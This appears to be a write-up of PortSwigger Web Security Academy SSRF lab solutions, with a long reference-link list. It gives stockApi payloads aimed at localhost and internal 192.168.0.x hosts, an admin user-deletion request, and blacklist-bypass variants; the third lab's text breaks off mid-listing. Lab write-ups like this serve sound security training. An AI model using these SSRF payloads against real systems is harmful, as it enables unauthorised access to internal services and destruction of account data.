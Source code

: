 ## **[Server-Side Request Forgery (SSRF)][ssrf]**

### [Common SSRF attacks][ssrf_common_attacks]

1. #### **Basic SSRF against the local server**

    - Click **View details** of any product then **Check stock** and take note of the URL flow and the parameters sent.

    <br>

    ```plaintext
    https://<lab_url>/product               GET     (productId=1)
    https://<lab_url>/product/stock         POST
                                            (stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1)
    ```

    - Send the **/product/stock POST** request to the **Repeater**.
    - Repeat the request but changing manually the **stockApi** URL.

    <br>

    ```plaintext
    stockApi=http://127.0.0.1
    stockApi=http://127.0.0.1/admin
    stockApi=http://127.0.0.1/admin/delete?username=carlos
    ```

2. #### **Basic SSRF against another back-end system**

    ```plaintext
    https://<lab_url>/product               GET     (productId=2)
    https://<lab_url>/product/stock         POST    (stockApi=http://192.168.0.1:8080/product/stock/check?productId=2&storeId=2)
    ```

    ```plaintext
    stockApi=http://192.168.0.0:8080
    stockApi=http://192.168.0.1:8080
    stockApi=http://192.168.0.2:8080
    ...
    stockApi=http://192.168.0.33:8080

    stockApi=http://192.168.0.33:8080/admin
    stockApi=http://192.168.0.33:8080/admin/delete?username=carlos
    ```

3. #### **SSRF with blacklist-based input filter**

    ```plaintext
    https://<lab_url>/product               GET     (productId=3)
    https://<lab_url>/product/stock         POST
                                            (stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=3&storeId=3)
    ```

    ```plaintext
    stockApi=http://127.0.0.1                           (NO)
    stockApi=http://127.1                               (OK)
    stockApi=http://127.1/admin                         (NO)
    stockApi=http://127.1/./admin                       (NO)
    stockApi=http://127.1/%61%64%6d%69%6e               (NO, URL encode)


[web_security_academy]: https://portswigger.net/web-security
[author's_twitter]:     https://www.twitter.com/UDPsycho
[wsa_getting_started]:  https://portswigger.net/web-security/getting-started
[wsa_learning_path]:    https://portswigger.net/web-security/learning-path
[wsa_all_labs]:         https://portswigger.net/web-security/all-labs
[burp_desktop]:         https://portswigger.net/burp/documentation/desktop
[burp_video_tutorials]: https://portswigger.net/burp/pro/video-tutorials
[sql_injection]:                     https://portswigger.net/web-security/sql-injection
[sqli_cheat_sheet]:                  https://portswigger.net/web-security/sql-injection/cheat-sheet
[sqli_retrieving_hidden_data]:       https://portswigger.net/web-security/sql-injection#retrieving-hidden-data
[sqli_subverting_application_logic]: https://portswigger.net/web-security/sql-injection#subverting-application-logic
[sqli_union_attacks]:                https://portswigger.net/web-security/sql-injection/union-attacks
[sqli_examining_the_database]:       https://portswigger.net/web-security/sql-injection/examining-the-database
[sqli_blind]:                        https://portswigger.net/web-security/sql-injection/blind
[sqli_script_conditional_responses]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20responses
[sqli_script_conditional_errors]:    https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20errors
[authentication]:                    https://portswigger.net/web-security/authentication
[auth_password_based]:               https://portswigger.net/web-security/authentication/password-based
[auth_script_ip_block]:              https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Broken%20brute-force%20protection%20IP%20block
[auth_script_account_lock]:          https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Username%20enumeration%20via%20account%20lock
[auth_multi_factor]:                 https://portswigger.net/web-security/authentication/multi-factor
[auth_other_mechanisms]:             https://portswigger.net/web-security/authentication/other-mechanisms
[auth_script_stay-logged-in_cookie]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Brute-forcing%20a%20stay-logged-in%20cookie
[directory_traversal]: https://portswigger.net/web-security/file-path-traversal
[command_injection]: https://portswigger.net/web-security/os-command-injection
[business_logic]:   https://portswigger.net/web-security/logic-flaws
[business_logic_1]: https://portswigger.net/web-security/logic-flaws/examples#excessive-trust-in-client-side-controls
[business_logic_2]: https://portswigger.net/web-security/logic-flaws/examples#failing-to-handle-unconventional-input
[bussiness_logic_script_low_level]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Business%20Logic/Low-level%20logic%20flaw
[business_logic_3]: https://portswigger.net/web-security/logic-flaws/examples#making-flawed-assumptions-about-user-behavior
[business_logic_4]: https://portswigger.net/web-security/logic-flaws/examples#domain-specific-flaws
[business_logic_5]: https://portswigger.net/web-security/logic-flaws/examples#providing-an-encryption-oracle
[information_disclosure]: https://portswigger.net/web-security/information-disclosure
[access_control]: https://portswigger.net/web-security/access-control
[file_upload_vulnerabilities]: https://portswigger.net/web-security/file-upload
[file_upload_vulnerabilities_file_signature]: https://www.garykessler.net/library/file_sigs.html
[ssrf]:                       https://portswigger.net/web-security/ssrf
[ssrf_common_attacks]:        https://portswigger.net/web-security/ssrf#common-ssrf-attacks
[ssrf_blind_vulnerabilities]: https://portswigger.net/web-security/ssrf/blind